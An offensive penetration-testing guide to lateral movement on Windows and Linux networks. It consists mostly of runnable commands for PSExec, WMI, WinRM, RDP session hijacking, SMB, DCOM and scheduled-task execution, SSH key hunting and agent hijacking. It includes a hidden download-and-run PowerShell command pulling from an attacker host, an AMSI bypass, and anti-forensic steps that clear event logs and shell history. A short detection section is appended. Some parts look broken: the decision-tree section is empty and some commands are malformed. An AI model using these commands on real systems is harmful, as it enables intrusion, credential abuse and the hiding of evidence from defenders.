

# Remote Execution for Lateral Movement
> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Overview](#overview)
2. [PSExec](#psexec)
3. [WMI — Windows Management Instrumentation](#wmi--windows-management-instrumentation)
4. [WinRM — Windows Remote Management](#winrm--windows-remote-management)
5. [RDP Lateral Movement](#rdp-lateral-movement)
6. [SMB Execution](#smb-execution)
7. [SSH Lateral Movement on Linux](#ssh-lateral-movement-on-linux)
8. [Scheduled Tasks for Remote Execution](#scheduled-tasks-for-remote-execution)
9. [DCOM Lateral Movement](#dcom-lateral-movement)
10. [Technique Comparison Table](#technique-comparison-table)
11. [Decision Tree for Choosing a Technique](#decision-tree-for-choosing-a-technique)
12. [Global OpSec Considerations](#global-opsec-considerations)
13. [Detection Reference](#detection-reference)

---

## Overview

**Remote execution** is the operational core of lateral movement — it's the act of running code on a remote system using credentials, hashes, or tickets you've obtained. Each technique has distinct trade-offs across noise level, privilege requirements, detection likelihood, and network requirements.

> **Note:** All remote execution techniques described here require **valid credentials** (plaintext, hash, or ticket) with sufficient privileges on the target. The choice of technique is driven by the environment, available ports, and desired stealth level.

### Prerequisites Checklist

Before executing remotely, verify:

```bash
# Does the target accept SMB?
crackmapexec smb 192.168.1.50 -u user -p pass

# Is WinRM enabled?
crackmapexec winrm 192.168.1.50 -u user -p pass

# Is RDP accessible?
nmap -p 3389 --open 192.168.1.50

# Is SSH accessible (Linux)?
nmap -p 22 --open 192.168.1.50

# What ports are open?
nmap -sV -p 22,80,135,139,443,445,1433,3389,5985,5986 192.168.1.50
```

---

## PSExec

### What Is PSExec?

**PSExec** (both Sysinternals and Impacket's implementation) achieves remote code execution by:

1. Authenticating to the target via SMB (port 445)
2. Uploading a service binary (`PSEXESVC.exe` or random name) to `ADMIN$`
3. Connecting to the Service Control Manager (SCM) via RPC
4. Creating and starting a Windows service that runs the binary
5. Communicating via a named pipe (`\PSEXECSVC` or random name)
6. When done: stopping the service and deleting the binary

This makes PSExec **highly detectable** — it leaves Service Creation events (7045), touches the disk, and creates named pipes.

### PSExec: Impacket Implementation

```bash
# Basic usage — drops into SYSTEM shell
impacket-psexec domain/Administrator:password@192.168.1.50

# With NTLM hash (Pass-the-Hash)
impacket-psexec Administrator@192.168.1.50 -hashes :NTLM_HASH

# With Kerberos ticket
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass corp.local/Administrator@DC01.corp.local

# Specify command (non-interactive)
impacket-psexec domain/Administrator:password@192.168.1.50 "whoami"

# Use different port (if SMB is on non-standard port)
impacket-psexec domain/Administrator:password@192.168.1.50 -port 445

# With specific codec for output
impacket-psexec domain/Administrator:password@192.168.1.50 -codec cp437
```

### PSExec: Sysinternals

```cmd
rem Download PsExec from Sysinternals
rem https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

rem Interactive cmd.exe on remote host
PsExec.exe \\192.168.1.50 -u Administrator -p Password123 cmd

rem Run as SYSTEM
PsExec.exe \\192.168.1.50 -u Administrator -p Password123 -s cmd

rem Run non-interactive command
PsExec.exe \\192.168.1.50 -u Administrator -p Password123 -d cmd /c "whoami > C:\out.txt"

rem Copy file and execute
PsExec.exe \\192.168.1.50 -u Administrator -p Password123 -c payload.exe

rem Execute on multiple hosts
PsExec.exe \\host1,host2,host3 -u Administrator -p Password123 cmd /c "ipconfig"
```

### PSExec OpSec Notes

```
Noise Level: VERY HIGH ⚠️
Artifacts created:
  - Event ID 7045: New service PSEXESVC installed
  - Event ID 4697: Service installation
  - Event ID 4624 Type 3: Network logon from attacker IP
  - Named pipe: \\TARGET\pipe\PSEXECSVC (or random)
  - File: C:\Windows\PSEXESVC.exe (visible on disk)
  - SMB: ADMIN$ share access logged (Event 5140)

Mitigation by defenders:
  - Alert on service named PSEXESVC (obvious signature)
  - Impacket uses random service names — but still Event 7045
  - EDRs specifically watch for PSExec patterns
```

> **Warning:** Impacket's PSExec is one of the **most detected** tools in enterprise environments. Most EDR/AV solutions have specific signatures for it. Use WMIExec, SMBExec, or DCOMExec for quieter execution.

---

## WMI — Windows Management Instrumentation

### What Is WMI?

**WMI (Windows Management Instrumentation)** is Microsoft's implementation of Web-Based Enterprise Management (WBEM). It provides a standardized interface for querying and managing Windows systems. Administrators use it legitimately, making it a good LOLBin for lateral movement.

WMI remote execution works via DCOM/RPC over TCP port 135 (plus dynamic high ports for data).

### WMI via WMIC Command Line

```cmd
rem Remote process creation (synchronous)
wmic /node:192.168.1.50 /user:Administrator /password:Password123 \
    process call create "cmd /c whoami > C:\Temp\output.txt && type C:\Temp\output.txt"

rem The output file trick — since WMI is fire-and-forget for output:
rem Step 1: Run command, redirect output to file
wmic /node:192.168.1.50 /user:Administrator /password:Password123 \
    process call create "cmd /c whoami > C:\Temp\out.txt"

rem Step 2: Read the file via SMB
type \\192.168.1.50\C$\Temp\out.txt

rem Get process list on remote system
wmic /node:192.168.1.50 /user:Administrator /password:Password123 \
    process list brief

rem Kill a process remotely
wmic /node:192.168.1.50 /user:Administrator /password:Password123 \
    process where (name="malware.exe") call terminate

rem Query system info remotely
wmic /node:192.168.1.50 /user:Administrator /password:Password123 \
    computersystem get name,username,domain
```

### WMI via PowerShell

```powershell
# Create remote process with credentials
$cred = Get-Credential  # prompts for credentials
Invoke-WmiMethod -ComputerName 192.168.1.50 -Credential $cred `
    -Class Win32_Process -Name Create `
    -ArgumentList "cmd /c whoami > C:\Temp\out.txt"

# More concise version
([wmiclass]"\\192.168.1.50\root\cimv2:Win32_Process").Create("cmd /c payload.exe")

# CIM-based (newer, preferred by Microsoft)
$session = New-CimSession -ComputerName 192.168.1.50 -Credential $cred
Invoke-CimMethod -CimSession $session -ClassName Win32_Process `
    -MethodName Create -Arguments @{CommandLine="cmd /c whoami"}

# Persistent WMI subscription (for persistence — stealthy)
$Filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" `
    -Arguments @{
        Name = "WindowsUpdate"
        EventNamespace = "root\cimv2"
        QueryLanguage = "WQL"
        Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
    }
```

### WMI via Impacket

```bash
# Interactive semi-shell via WMI
impacket-wmiexec domain/Administrator:password@192.168.1.50

# With NTLM hash
impacket-wmiexec Administrator@192.168.1.50 -hashes :NTLM_HASH

# Run single command
impacket-wmiexec domain/Administrator:password@192.168.1.50 "whoami /all"

# Silently (no output — fire-and-forget)
impacket-wmiexec domain/Administrator:password@192.168.1.50 -silentcommand \
    "cmd /c payload.exe"

# With specific namespace
impacket-wmiexec domain/Administrator:password@192.168.1.50 \
    -namespace root/cimv2
```

### WMI OpSec Notes

```
Noise Level: MEDIUM
Artifacts created:
  - Event ID 4624 Type 3: Network logon
  - Event ID 4688: New process creation (if audited)
  - WMI-Activity/Operational log: EventID 5857, 5858, 5859, 5861
  - No new service created (quieter than PSExec)
  - No binary dropped to disk (impacket version)
  - Output written to temp file on target (can be cleaned)

Defenders look for:
  - WMI spawning unusual child processes
  - wmiprvse.exe spawning cmd.exe or powershell.exe
  - WMI activity at unusual hours
```

---

## WinRM — Windows Remote Management

### What Is WinRM?

**WinRM** is Microsoft's implementation of the WS-Management protocol. It enables remote PowerShell sessions (PowerShell Remoting) and is enabled by default on:
- Windows Server 2012 R2+ (servers): HTTP on 5985, HTTPS on 5986
- Windows 10+: Disabled by default, must be enabled

WinRM runs over HTTP/HTTPS, making it appear as web traffic and potentially less suspicious.

### WinRM with Evil-WinRM

```bash
# Connect with password
evil-winrm -i 192.168.1.50 -u Administrator -p Password123

# Connect with NTLM hash (Pass-the-Hash)
evil-winrm -i 192.168.1.50 -u Administrator -H NTLM_HASH

# Connect with SSL (port 5986)
evil-winrm -i 192.168.1.50 -u Administrator -p Password123 -S -P 5986

# Upload a file to the target
*Evil-WinRM* PS C:\> upload /path/to/local/file.exe C:\Temp\file.exe

# Download a file from the target
*Evil-WinRM* PS C:\> download C:\Temp\output.txt /path/to/local/output.txt

# Load a PowerShell script into memory
*Evil-WinRM* PS C:\> Invoke-Binary /local/path/to/script.ps1

# Load a compiled .NET assembly
*Evil-WinRM* PS C:\> [Reflection.Assembly]::Load([IO.File]::ReadAllBytes('/path/to/Assembly.dll'))

# Enable AMSI bypass (built-in to evil-winrm)
*Evil-WinRM* PS C:\> Bypass-4MSI
```

### WinRM with PowerShell Remoting

```powershell
# Create a credential object
$password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
$cred = New-PSCredential -Credential domain\Administrator -Password $password
# Or more simply:
$cred = Get-Credential

# Interactive session (like SSH)
Enter-PSSession -ComputerName 192.168.1.50 -Credential $cred

# Non-interactive — run commands
Invoke-Command -ComputerName 192.168.1.50 -Credential $cred -ScriptBlock {
    whoami
    hostname
    Get-Process | Sort-Object CPU -Descending | Select -First 10
}

# Run script file remotely
Invoke-Command -ComputerName 192.168.1.50 -Credential $cred -FilePath C:\Temp\script.ps1

# Persistent session
$sess = New-PSSession -ComputerName 192.168.1.50 -Credential $cred
Invoke-Command -Session $sess -ScriptBlock { whoami }
Copy-Item C:\Temp\payload.exe -Destination C:\Temp\ -ToSession $sess
Remove-PSSession $sess

# Run against multiple hosts
Invoke-Command -ComputerName 192.168.1.50,192.168.1.51,192.168.1.52 `
    -Credential $cred -ScriptBlock { hostname; whoami }
```

### WinRM OpSec Notes

```
Noise Level: LOW–MEDIUM
Artifacts created:
  - Event ID 4624 Type 3: Network logon
  - WinRM/Operational log: Event 6 (WSMan session created)
  - PowerShell ScriptBlock logging (if enabled): 4104
  - PowerShell Module logging: 4103
  - PowerShell Transcription: written to transcript file

Advantages for attackers:
  - HTTP traffic blends with web traffic
  - No binary dropped to disk
  - PowerShell logging often not enabled
  - WinRM commonly used by admins = low suspicion

Defenders look for:
  - WinRM connections from unexpected source hosts
  - PowerShell ScriptBlock logging (enable 4104!)
  - Unusual PowerShell commands executed remotely
```

> **Note:** PowerShell **ScriptBlock Logging** (Event ID 4104) is the most valuable detection control against WinRM abuse. Enable it via Group Policy: `Computer Configuration → Administrative Templates → Windows Components → Windows PowerShell → Turn on PowerShell Script Block Logging`

---

## RDP Lateral Movement

### Standard RDP Access

```bash
# xfreerdp — connect with password
xfreerdp /u:Administrator /p:Password123 /v:192.168.1.50 /cert-ignore

# With domain
xfreerdp /u:Administrator /d:corp.local /p:Password123 /v:192.168.1.50 /cert-ignore

# With NTLM hash (Restricted Admin mode must be enabled on target)
xfreerdp /u:Administrator /pth:NTLM_HASH /v:192.168.1.50 /cert-ignore

# Enable Restricted Admin mode (requires existing admin access)
reg add "HKLM\System\CurrentControlSet\Control\Lsa" \
    /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f

# Rdesktop (legacy)
rdesktop -u Administrator -p Password123 192.168.1.50

# With resolution and color depth
xfreerdp /u:Administrator /p:Password123 /v:192.168.1.50 \
    /w:1920 /h:1080 /bpp:32 /cert-ignore /dynamic-resolution
```

### RDP Session Hijacking

A critical Windows feature allows administrators to **take over** other users' RDP sessions — including sessions of other administrators — without knowing their password. This is by design (for support purposes) but is abused for lateral movement.

```cmd
rem Step 1: List current RDP sessions (requires admin)
query session
rem or
qwinsta

rem Output example:
rem  SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
rem  services                                    0  Disc
rem  console                                     1  Conn
rem >rdp-tcp#0         jsmith                    2  Active
rem  rdp-tcp#1         admin                     3  Active

rem Step 2: Hijack session (from an SYSTEM session or elevated admin)
rem Connects your current terminal to the target session
tscon 2 /dest:rdp-tcp#0
rem (Hijack jsmith's session ID 2, deliver to our connection rdp-tcp#0)

rem Alternative — use sc to create a service that runs tscon as SYSTEM
sc create sesshijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#0"
net start sesshijack

rem Via PsExec (run as SYSTEM which can hijack any session)
PsExec.exe -s cmd.exe
tscon 2 /dest:console

rem Via Mimikatz ts::remote
mimikatz.exe "privilege::debug" "ts::remote /id:2" "exit"
```

> **Warning:** RDP Session Hijacking **does not require knowing the target user's password** and works even on locked sessions. This is a powerful technique for impersonating other users on a compromised system. Event ID 4778 (session reconnect) and 4779 (session disconnect) are generated and may alert defenders.

### RDP Tunneling (Port Forward)

```bash
# If RDP is only accessible from specific IPs, tunnel through pivot
# Forward local:33890 → target:3389 via SSH pivot
ssh -L 33890:192.168.1.50:3389 user@PIVOT_HOST

# Connect to tunneled RDP
xfreerdp /u:Administrator /p:Password123 /v:127.0.0.1:33890 /cert-ignore
```

### RDP OpSec Notes

```
Noise Level: HIGH
Artifacts created:
  - Event ID 4624 Type 10: Remote interactive logon
  - Event ID 4778/4779: Session connect/disconnect
  - TerminalServices-LocalSessionManager/Operational: EventID 21, 22, 25
  - TerminalServices-RemoteConnectionManager/Operational: EventID 1149
  - Bitmap cache on attacker machine: C:\Users\user\AppData\Local\Microsoft\Terminal Server Client\Cache\
  - Source IP logged in all RDP events

Defenders look for:
  - Logon Type 10 from unexpected source hosts
  - RDP connections outside business hours
  - Session hijacking (tscon by SYSTEM)
  - Multiple RDP sessions from same account
```

---

## SMB Execution

### SMBExec (Service-Less Execution)

**SMBExec** achieves command execution without uploading a service binary, making it slightly stealthier than PSExec.

```bash
# Impacket SMBExec — interactive shell
impacket-smbexec domain/Administrator:password@192.168.1.50

# With NTLM hash
impacket-smbexec Administrator@192.168.1.50 -hashes :NTLM_HASH

# Non-interactive single command
impacket-smbexec domain/Administrator:password@192.168.1.50 "net user"

# How it works internally:
# 1. Creates service that runs: cmd.exe /Q /c COMMAND 1> output_file 2>&1
# 2. Reads output from SMB share
# 3. Deletes the output file
# 4. Deletes the service
# No binary uploaded — uses cmd.exe already on system
```

### Manual SMB Execution

```bash
# Mount ADMIN$ and execute via Service Manager
smbclient //192.168.1.50/ADMIN$ -U domain\\Administrator%Password123
smb: \> put payload.exe
smb: \> exit

# Create service remotely via sc.exe (from attacker running Windows)
sc \\192.168.1.50 create MyService binpath= "C:\Windows\payload.exe"
sc \\192.168.1.50 start MyService
sc \\192.168.1.50 delete MyService

# CrackMapExec execution methods
crackmapexec smb 192.168.1.50 -u Administrator -p Password123 \
    -x "whoami" --exec-method smbexec
crackmapexec smb 192.168.1.50 -u Administrator -p Password123 \
    -x "whoami" --exec-method wmiexec
crackmapexec smb 192.168.1.50 -u Administrator -p Password123 \
    -x "whoami" --exec-method mmcexec
```

### SMB OpSec Notes

```
Noise Level: HIGH (PSExec) / MEDIUM (SMBExec)
Artifacts:
  - Event ID 4624 Type 3: Network logon
  - Event ID 5140: Network share accessed (ADMIN$, C$)
  - Event ID 5145: Network share object access
  - Event ID 7045: Service creation (PSExec) / Event 7034/7036 (service start/stop)
  - Event ID 4688: cmd.exe spawned by services.exe

Detecting SMBExec pattern:
  - services.exe spawning cmd.exe /Q /c
  - Short-lived service creation and deletion
  - Output files written to C:\Windows\Temp
```

---

## SSH Lateral Movement on Linux

### Using Stolen SSH Keys

```bash
# Standard key-based authentication
ssh -i /path/to/id_rsa user@192.168.1.50

# Suppress host key checking (OpSec consideration — may skip detection)
ssh -i /path/to/id_rsa -o StrictHostKeyChecking=no user@192.168.1.50

# Find SSH keys on a compromised host
find /home -name "id_rsa" -o -name "id_ed25519" -o -name "*.pem" 2>/dev/null
find /root -name "id_rsa" -o -name "id_ed25519" 2>/dev/null
find /etc -name "*.pem" -o -name "*.key" 2>/dev/null
find /var /opt /srv -name "id_rsa" 2>/dev/null

# Check authorized_keys for mapped users
cat /home/*/.ssh/authorized_keys 2>/dev/null
cat /root/.ssh/authorized_keys 2>/dev/null

# Map the network from known_hosts
# known_hosts contains hashed (or unhashed) hostnames of previously connected hosts
cat ~/.ssh/known_hosts
cat /home/*/.ssh/known_hosts 2>/dev/null

# Unhash known_hosts entries (if hashed)
ssh-keygen -F 192.168.1.50  # Check if IP is in known_hosts
ssh-keygen -l -f ~/.ssh/known_hosts  # List all entries with fingerprints
```

### SSH Config File Discovery

```bash
# SSH config files can reveal usernames, hosts, and key paths
cat ~/.ssh/config
cat /home/*/.ssh/config 2>/dev/null
cat /root/.ssh/config 2>/dev/null

# Example suspicious ~/.ssh/config:
# Host dc01
#     HostName 10.0.0.1
#     User domain_admin
#     IdentityFile ~/.ssh/id_rsa_admin
#     StrictHostKeyChecking no
```

### SSH Agent Forwarding Attacks

**SSH Agent Forwarding** is a feature that forwards your local SSH agent to a remote server, allowing the remote server to use your local keys. This is a significant security risk.

```bash
# Connect with agent forwarding enabled
ssh -A user@192.168.1.50

# On the remote server — check if agent is forwarded
env | grep SSH_AUTH_SOCK  
# SSH_AUTH_SOCK=/tmp/ssh-XXXXXX/agent.XXXXX

# List keys available through the forwarded agent
ssh-add -l

# Use the forwarded agent to connect to another host
# (Keys in the agent are available without the key file being on this host)
ssh user@192.168.1.100  # Uses forwarded agent

# Hijack another user's forwarded agent (requires root on SSH server)
# Find all agent sockets
ls /tmp/ssh-*/

# Check who owns them
ls -la /tmp/ssh-*/

# Use someone else's agent (if you're root)
SSH_AUTH_SOCK=/tmp/ssh-XXXXXX/agent.12345 ssh user@192.168.1.100
```

> **Warning:** SSH Agent Forwarding hijacking allows stealing another user's SSH agent if you have root on the intermediate server. This is why production environments should **never** enable agent forwarding to privilege-escalated or untrusted hosts.

### SSH Lateral Movement Workflow

```bash
# Step 1: Enumerate SSH-accessible targets from pivot
for i in {1..254}; do
    ssh -q -o StrictHostKeyChecking=no -o ConnectTimeout=2 \
        -i /home/found_user/.ssh/id_rsa found_user@192.168.1.$i \
        "hostname 2>/dev/null" && echo "SSH success: 192.168.1.$i"
done

# Step 2: Enumerate users and keys on each new host
ssh -i /home/found_user/.ssh/id_rsa found_user@192.168.1.50 \
    "ls /home; cat /etc/passwd | grep -v nologin; find /home -name 'id_rsa' 2>/dev/null"

# Step 3: Establish persistent tunnel through SSH
ssh -i id_rsa -fN -D 1080 found_user@192.168.1.50
```

### SSH Detection

```bash
# /var/log/auth.log — authentication events
grep "Accepted" /var/log/auth.log  # Successful logins
grep "Failed" /var/log/auth.log    # Failed attempts

# Last logins
lastlog
last -a | head -20

# Currently logged-in users
who
w

# Check active SSH connections
ss -tnp | grep :22
```

---

## Scheduled Tasks for Remote Execution

### schtasks — Remote Task Creation

```cmd
rem Create task on remote host to run once
schtasks /create /s 192.168.1.50 /u Administrator /p Password123 \
    /tn "WindowsUpdate" \
    /tr "cmd /c whoami > C:\Temp\out.txt" \
    /sc once /st 00:00 /f

rem Run the task immediately
schtasks /run /s 192.168.1.50 /u Administrator /p Password123 \
    /tn "WindowsUpdate"

rem Read the output file via SMB
type \\192.168.1.50\C$\Temp\out.txt

rem Delete the task (cleanup)
schtasks /delete /s 192.168.1.50 /u Administrator /p Password123 \
    /tn "WindowsUpdate" /f

rem Task with SYSTEM privileges (no visible window)
schtasks /create /s 192.168.1.50 /u Administrator /p Password123 \
    /tn "Update" \
    /tr "powershell -ep bypass -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')" \
    /sc once /st 00:00 /ru SYSTEM /f
```

### Impacket ATExec

```bash
# Execute single command via Task Scheduler (cleaner than schtasks CLI)
impacket-atexec domain/Administrator:password@192.168.1.50 "whoami"

# With NTLM hash
impacket-atexec -hashes :NTLM_HASH Administrator@192.168.1.50 "net user"

# How atexec works:
# 1. Connects to ATSVC named pipe via SMB
# 2. Creates a one-time scheduled task
# 3. Task runs and captures output to a temp file
# 4. ATExec reads output via SMB
# 5. Deletes the task and output file
```

### Scheduled Task OpSec Notes

```
Noise Level: MEDIUM
Artifacts:
  - Event ID 4698: Scheduled task created
  - Event ID 4702: Scheduled task updated
  - Event ID 4699: Scheduled task deleted
  - Event ID 4700/4701: Task enabled/disabled
  - Event ID 4688: Process created by task scheduler (taskeng.exe, svchost.exe)
  - Task XML in C:\Windows\System32\Tasks\ (if not cleaned)
  - Microsoft-Windows-TaskScheduler/Operational log

Detection signatures:
  - Task created and deleted within short time = on-demand execution
  - Task created by unusual account (not SYSTEM, not service account)
  - Task running PowerShell with encoded commands or web downloads
```

---

## DCOM Lateral Movement

### What Is DCOM?

**DCOM (Distributed Component Object Model)** allows Windows COM objects to be instantiated and used remotely over the network. Several COM objects have `ExecuteShellCommand` or equivalent methods that can be abused for remote code execution.

### DCOM via Impacket

```bash
# Execute command via DCOM (uses MMC20.Application by default)
impacket-dcomexec domain/Administrator:password@192.168.1.50

# With specific COM object
impacket-dcomexec domain/Administrator:password@192.168.1.50 \
    -object MMC20  # Default: MMC20.Application
impacket-dcomexec domain/Administrator:password@192.168.1.50 \
    -object ShellWindows  # Uses ShellWindows COM object
impacket-dcomexec domain/Administrator:password@192.168.1.50 \
    -object ShellBrowserWindow

# With NTLM hash
impacket-dcomexec Administrator@192.168.1.50 -hashes :NTLM_HASH

# Run single command
impacket-dcomexec domain/Administrator:password@192.168.1.50 "whoami"
```

### DCOM via PowerShell

```powershell
# MMC20.Application — most commonly used for DCOM LM
$com = [Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application", "192.168.1.50"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe', $null, '/c whoami > C:\Temp\out.txt', '7')

# ShellWindows — requires a user to be logged in on target
$com = [Activator]::CreateInstance([Type]::GetTypeFromCLSID([Guid]'{9BA05972-F6A8-11CF-A442-00A0C90A8F39}', "192.168.1.50"))
$item = $com.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c whoami", "C:\Windows\System32", $null, 0)

# ShellBrowserWindow
$com = [Activator]::CreateInstance([Type]::GetTypeFromCLSID([Guid]'{C08AFD90-F2A1-11D1-8455-00A0C91F3880}', "192.168.1.50"))
$com.Document.Application.ShellExecute("cmd.exe", "/c whoami", "C:\Windows\System32", $null, 0)
```

### DCOM OpSec Notes

```
Noise Level: MEDIUM
Artifacts:
  - Event ID 4624 Type 3: Network logon
  - Event ID 4688: Process created by DCOM host (svchost.exe → mmc.exe/explorer.exe)
  - DCOM connection in Windows Firewall log
  - No service creation (quieter than PSExec)
  - No binary dropped (unless payload downloads one)

Advantages:
  - Uses legitimate Windows infrastructure
  - Spawned processes appear as children of mmc.exe/explorer.exe (less suspicious)
  - No unique service names to detect
  
Disadvantages:
  - Requires firewall to allow RPC (135 + high ports)
  - Some COM objects require logged-in user session
  - Less reliable than PSExec/WMIExec
```

---

## Technique Comparison Table

| Technique | Port(s) | Privilege | Shell Type | Binary Drop | Noise | Detection Ease | Best Use Case |
|-----------|---------|-----------|-----------|-------------|-------|----------------|--------------|
| **PSExec** | 445 | Local Admin | SYSTEM | Yes | Very High | Easy | Quick access when stealth doesn't matter |
| **SMBExec** | 445 | Local Admin | cmd.exe | No | High | Medium | When PSExec is blocked/detected |
| **WMIExec** | 135/dyn | Local Admin | Semi-interactive | No | Medium | Medium | Default lateral movement technique |
| **WinRM** | 5985/5986 | WinRM Users | PowerShell | No | Low | Hard | Stealthy access when WinRM is enabled |
| **DCOMExec** | 135/dyn | Local Admin | Semi-interactive | No | Medium | Hard | When WMI is monitored |
| **ATExec** | 445 | Local Admin | Non-interactive | No | Medium | Medium | Running commands on multiple hosts |
| **RDP** | 3389 | RDP Users | GUI | No | High | Easy | Interactive GUI access |
| **RDP Hijack** | 3389 | Local Admin | Stolen session | No | Medium | Hard | Impersonating other users |
| **SSH** | 22 | SSH user | bash/sh | No | Low | Medium | Linux lateral movement |
| **SSH Agent Fwd** | 22 | Root | Hijacked session | No | Low | Very Hard | Linux stealthy movement |

---

## Decision Tree for Choosing a Technique



---

## Global OpSec Considerations

### The Five Rules of Remote Execution OpSec

1. **Match admin patterns** — Use WinRM if admins use it; use RDP if they use RDP. Blend in.
2. **Clean up artifacts** — Delete scheduled tasks, stop and delete services, clean output files.
3. **Avoid verbose output** — Redirect output to files rather than receiving it interactively where possible.
4. **Use existing network flows** — Don't create new firewall holes; use ports that are already open.
5. **Know your logging** — Understand what is and isn't logged in the environment before choosing a technique.

### Pre-Execution Checklist

```bash
# 1. Verify the port is open
nmap -p 445,135,5985,3389 --open 192.168.1.50 -Pn

# 2. Verify credentials work before executing
crackmapexec smb 192.168.1.50 -u Administrator -p Password123
# Look for (Pwn3d!) in output

# 3. Check EDR/AV presence on target
crackmapexec smb 192.168.1.50 -u Administrator -p Password123 \
    -x "sc query type= all | findstr /i 'carbon defender sentinel crowdstrike'"

# 4. Check logging configuration
crackmapexec smb 192.168.1.50 -u Administrator -p Password123 \
    -x "auditpol /get /category:*"

# 5. Choose technique based on findings
```

### Post-Execution Cleanup

```cmd
rem Remove scheduled task
schtasks /delete /s TARGET /u Admin /p Pass /tn "TaskName" /f

rem Remove service (if PSExec or manual)
sc \\TARGET delete ServiceName

rem Clear Windows event logs (noisy — use selectively)
wevtutil cl Security
wevtutil cl System
wevtutil cl Application

rem Remove specific events (more surgical)
wevtutil qe Security "/q:*[System[(EventID=7045)]]" /f:xml > events.xml
rem Then manually remove entries and clear/reimport

rem Clear PowerShell history
Remove-Item "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"

rem Clean temp output files
del C:\Temp\out.txt
del C:\Windows\Temp\*.tmp
```

---

## Detection Reference

### Event ID Quick Reference

| Event ID | Log | Generated By | Lateral Movement Indicator |
|----------|-----|-------------|--------------------------|
| 4624 | Security | Successful logon | Type 3 (network), Type 10 (RDP) from new sources |
| 4648 | Security | Explicit credential logon | Runas / credential passing |
| 4688 | Security | Process creation | WMI/DCOM spawning cmd.exe |
| 4697 | Security | Service installation | PSExec service install |
| 4698 | Security | Scheduled task created | Remote task creation |
| 4778 | Security | RDP session reconnect | Session hijacking |
| 4779 | Security | RDP session disconnect | Session hijacking |
| 5140 | Security | Network share accessed | ADMIN$ access (PSExec) |
| 5145 | Security | Share object access | SMB execution |
| 7034 | System | Service crashed | Service-based execution failure |
| 7045 | System | New service installed | PSExec signature |
| 1 | Sysmon | Process create | All remote execution |
| 3 | Sysmon | Network connection | Outbound from servers |

### Hunting Queries (Splunk SPL)

```
| Search for PSExec patterns
index=wineventlog EventCode=7045 Service_Name=PSEXESVC
| stats count by ComputerName, Account_Name, _time

| Search for WMI lateral movement
index=wineventlog EventCode=4688
| where ParentProcessName="wmiprvse.exe" AND (CommandLine="*cmd.exe*" OR CommandLine="*powershell*")
| stats count by ComputerName, Account_Name, CommandLine, _time

| Search for remote interactive logons (new source IPs)
index=wineventlog EventCode=4624 Logon_Type=10
| stats dc(Workstation_Name) as unique_sources by Account_Name
| where unique_sources > 3

| Search for scheduled task creation by non-standard accounts
index=wineventlog EventCode=4698
| where NOT (Account_Name="*$" OR Account_Name="SYSTEM")
| table _time, ComputerName, Account_Name, Task_Name, Task_Content
```

---

*Tools referenced: Impacket (psexec, wmiexec, smbexec, atexec, dcomexec), Evil-WinRM, xfreerdp, CrackMapExec, Metasploit, Sysinternals PsExec*
